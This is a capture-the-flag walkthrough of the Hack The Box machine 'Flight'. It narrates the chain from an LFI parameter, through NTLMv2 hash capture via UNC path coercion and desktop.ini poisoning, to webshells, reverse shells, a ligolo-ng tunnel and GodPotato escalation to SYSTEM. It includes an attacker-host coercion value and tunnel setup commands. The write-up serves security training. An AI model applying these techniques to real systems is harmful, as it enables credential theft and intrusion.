# Flight Writeup - by Thammanant Thamtaranon

**Flight** is a **Hard**-difficulty Windows machine hosted on Hack The Box.

**Attack path:** LFI via the `?view=` parameter → UNC path coercion + Responder to capture and crack `svc_apache`'s NTLMv2 hash → password spray reveals `S.Moon` reuses the password → `desktop.ini` poisoning on the writable `Shared` share captures and cracks `C.Bum` → `C.Bum`'s write access to the `Web` share drops a PHP webshell, giving an interactive shell as `svc_apache` → RunasCs pivots to `C.Bum` → `ligolo-ng` tunnels to the internal IIS site on port 8000 → writable `development` folder drops an ASPX shell as `iis apppool\defaultapppool` → `SeImpersonatePrivilege` + GodPotato → **NT AUTHORITY\SYSTEM**.

---

## Reconnaissance
- We began the engagement with a full TCP port scan using Nmap to identify open services and fingerprint the underlying operating system.
  
- The results pointed to an Active Directory Domain Controller for the `flight.htb` domain. The notable open ports were:
  * **53/tcp:** domain (Simple DNS Plus)
  * **80/tcp:** http (Apache httpd 2.4.52 (Win64), OpenSSL 1.1.1m, PHP 8.1.1 — page title `g0 Aviation`)
  * **88/tcp:** kerberos-sec
  * **135/tcp:** msrpc
  * **139/tcp:** netbios-ssn
  * **389/tcp & 3268/tcp:** ldap / Global Catalog (Domain: `flight.htb`)
  * **445/tcp:** microsoft-ds (SMB)
  * **464/tcp:** kpasswd5
  * **593/tcp:** ncacn_http (RPC over HTTP)
  * **636/tcp & 3269/tcp:** LDAPS / GC over SSL (tcpwrapped)
  * **9389/tcp:** mc-nmf (.NET Message Framing / AD Web Services)
  * **49667–49696/tcp:** high ephemeral RPC ports
- With this information, we added `flight.htb` to our `/etc/hosts` file.

---

## Scanning & Enumeration
- We started by enumerating SMB with null and guest credentials. Null authentication succeeded, but we were not permitted to list the shares.
  
- Moving on to virtual host enumeration, we discovered the `school` vhost, so we added `school.flight.htb` to our `/etc/hosts` file as well.
  
- Next we visited the site on port 80 and found an airline website. After enumeration, we determined the site is static.
  
- We then ran `dirsearch` and found `/cgi-bin/printenv.pl`, a demo Perl CGI script that simply prints the server's environment variables. Among them, the `PATH` variable referenced `C:\Users\svc_apache\AppData\...`, revealing a service account name, `svc_apache`. The output also confirmed the server is a XAMPP install with its web root at `C:/xampp/htdocs/flight.htb`.
  
- Visiting `school.flight.htb` presented an aviation-school website, which is also a static page.
  
- However, we noticed the index page loads its sub-pages through a `?view=` parameter, which looked like a candidate for path traversal / file inclusion. Requesting `?view=C:/xampp/cgi-bin/printenv.pl` returned the **raw source** of the Perl script rather than executing it, confirming an arbitrary file read. Note that although we could read files, the included content was not executed as code.
  

---

## Exploitation
- We next checked whether the `?view=` parameter would fetch a *remote* resource. To test this, we stood up an HTTP server on our machine and pointed the parameter at it (`?view=http://10.10.16.49`).
  
  
- Our HTTP server received the request from the target, confirming that the parameter will reach out to attacker-controlled hosts. Rather than trying to execute remote PHP, we used this to coerce an SMB authentication and capture the service account's NTLMv2 hash.
  
- We supplied a UNC path pointing back at our machine (`?view=//10.10.16.49/share/x`) and ran Responder to capture the incoming NTLMv2 authentication for `svc_apache`.
  
- With the NTLMv2 hash in hand, we used Hashcat (mode 5600) with `rockyou.txt` to crack the password for `svc_apache`.
  
- We confirmed the recovered password against SMB. We could now list several shares, including `Shared`, `Users`, and `Web`: `Shared` was empty, `Users` contained the users' home directories, and `Web` contained the web root for both `flight.htb` and `school.flight.htb`.
  
- Using the valid credentials, we ran `nxc ldap` to pull the list of domain users.
  
- With the user list, we performed a password spray and found that `S.Moon` reuses the same password as `svc_apache`.
  
- We validated the password against SMB and found that `S.Moon` also has **write** permission on the `Shared` share.
  
- We tried several tools to get a shell with these credentials but had no success. Since we can write to a share that other users browse, we instead used the [ntlm_theft](https://github.com/Greenwolf/ntlm_theft) tool to generate a set of "poison" files (`.scf`, `.url`, `.lnk`, `desktop.ini`, etc.) that force any user opening the folder to authenticate back to us.
  
- We uploaded one of the poison files, `desktop.ini`, to the writable `Shared` share using `S.Moon`'s access. When another user browses the folder, their host will silently attempt to authenticate to our machine.
  
- With Responder running, we captured the NTLMv2 hash of the user who browsed the share.
  
- The captured hash belonged to `C.Bum`. We cracked it with Hashcat to recover the plaintext password.
  
- Verifying `C.Bum`'s credentials against SMB, we found them valid and that `C.Bum` has **write** permission on the `Web` share. We were also able to download the user flag from `Users` → `C.Bum` → `Desktop`.
  
- Because we can modify the `Web` share, we put a PHP web shell into the web root and triggered it through the site. Because `svc_apache` can't log in remotely (no WinRM), the webshell is what gives us our first interactive shell on the box.
  
  
- After confirming the web shell executes, we set up Penelope on our machine to catch the reverse shell.
  
- This landed us an interactive shell as `svc_apache`.
  

---

## Privilege Escalation
- `svc_apache` has no interesting privileges or group memberships. However, we already hold valid credentials for `C.Bum`, so we uploaded **RunasCs** to the machine to switch user context.
  - **RunasCs** is an open-source C# utility that runs a command as a different user, similar to the built-in Windows `runas`, but non-interactive and scriptable. It takes a username and password directly and, with the `-r` flag, can spawn a reverse shell as that user. Here we fetched it with `certutil`.
  
- Using RunasCs, we ran a command as `C.Bum` to send a reverse shell back to our listener.
  
- Catching the reverse shell gave us an interactive session as `C.Bum` (the user flag was already recovered over SMB earlier).
  
- `C.Bum` has no interesting privileges apart from membership in a group called `WebDevs`.
  
- We then listed the machine's listening ports and found an internal service on port 8000.
  
- To reach that internal port, we set up a tunnel with `ligolo-ng`. On our attacker machine we prepared the tunnel interface and started the proxy:
  - `sudo ip tuntap add user $(whoami) mode tun ligolo`: create a TUN interface named `ligolo`.
  - `sudo ip link set ligolo up`: bring the interface up.
  - `ligolo-proxy -selfcert -laddr 0.0.0.0:11601`: start the ligolo-ng proxy/listener with a self-signed certificate on port 11601.
  
- We uploaded the ligolo agent to the target with `certutil`.
  
- We started the agent so it connects back to our proxy, ignoring the self-signed certificate.
  
- The ligolo-ng console confirmed the agent joined.
  
- We selected the agent session and issued `start` in the ligolo console to bring the tunnel up.
  
- Finally, we added a route so that traffic for `240.0.0.1/32` is sent through the `ligolo` interface: `sudo ip route add 240.0.0.1/32 dev ligolo`. `240.0.0.1` is ligolo-ng's special address that maps to the agent's own loopback (`127.0.0.1`), so requests to `240.0.0.1:8000` reach the target's internal service on `127.0.0.1:8000`.
  
- Browsing to `240.0.0.1:8000` revealed an internal flight-booking website.
  
- Back on the shell, we enumerated further and found a folder named `development` under `inetpub` that we can modify. It holds the source files for the internal site we just tunnelled to.
  
- We uploaded `shell.aspx` into that folder.
  
- We triggered the web shell with a `whoami` command to confirm execution.
  
- With the web shell confirmed, we changed the command to a reverse shell and landed a session as the IIS application-pool identity.
  
- Checking `defaultapppool`'s privileges, we found `SeImpersonatePrivilege` **enabled**.
  
- We confirmed the OS/build: **Windows Server 2019 Standard, Build 17763**, running as the primary domain controller.
  
- Given `SeImpersonatePrivilege` and the build, the host is vulnerable to a potato-style token-impersonation attack via **GodPotato**.
- We uploaded the .NET 4 build of GodPotato (the machine has .NET 4.5).
  
- We ran GodPotato with a `whoami` command to confirm that the exploit works.
  
- Having confirmed success, we changed the command to a reverse shell.
  
- The reverse shell returned a session as **NT AUTHORITY\SYSTEM**, from which we captured the root flag.
  
